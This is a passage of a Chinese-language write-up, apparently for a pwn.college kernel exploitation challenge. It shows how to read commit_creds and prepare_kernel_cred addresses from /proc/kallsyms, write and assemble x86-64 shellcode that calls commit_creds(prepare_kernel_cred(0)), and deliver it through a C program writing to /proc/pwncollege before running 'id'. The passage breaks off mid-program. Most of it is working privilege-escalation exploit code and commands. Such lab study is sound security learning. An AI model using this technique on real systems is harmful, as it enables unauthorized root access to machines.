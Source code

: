 ```
commit_creds(prepare_kernel_cred (0));
```

怎么写？

还是一样，在这里没有 `kaslr`，可以直接读取 `/proc/kallsyms` 获取函数的地址

插入内核模块后，可以通过

```
cat /proc/kallsyms | grep prepare_kernel_cred
cat /proc/kallsyms | grep commit_creds
```

![image-20210222024057729](https://gitee.com/scriptkiddies/images/raw/master/image-20210222024057729.png)

`prepare_kernel_cred` 函数的地址 `0xffffffff810881c0`

`commit_creds` 函数的地址 `0xffffffff81087e80`

写 `payload`

```asm
push rsi;
mov rsi, 0xffffffff810881c0;
push rdi;
xor rdi, rdi;
call rsi;
mov rdi, rax;
mov rsi, 0xffffffff81087e80;
call rsi;
pop rdi;
pop rsi;
ret;
```

我用 `rasm2` 编译成字节码

![image-20210222022249066](https://gitee.com/scriptkiddies/images/raw/master/image-20210222022249066.png)

`-a x86` x86架构

`-b 64` 64位cpu

`-C` 输出为 c 语言格式

`-f` 从文件读取

得到 `shellcode`

```c
"\x56\x48\xbe\xc0\x81\x08\x81\xff\xff\xff\xff\x57\x48\x31\xff\xff\xd6\x48\x89\xc7" \
"\x48\xbe\x80\x7e\x08\x81\xff\xff\xff\xff\xff\xd6\x5f\x5e\xc3"
```

payload：

```c
#include <stdio.h>
#include <fcntl.h>
#include <stdlib.h>

char shellcode[] = {
  "\x56\x48\xbe\xc0\x81\x08\x81\xff\xff\xff\xff\x57\x48\x31\xff\xff\xd6\x48\x89\xc7" \
  "\x48\xbe\x80\x7e\x08\x81\xff\xff\xff\xff\xff\xd6\x5f\x5e\xc3"
};
int main() {
  printf("%s\n", shellcode);
  int fd = open("/proc/pwncollege", O_WRONLY);
  printf("%d\n", fd);
  write(fd, shellcode, 50);
  system("id");
```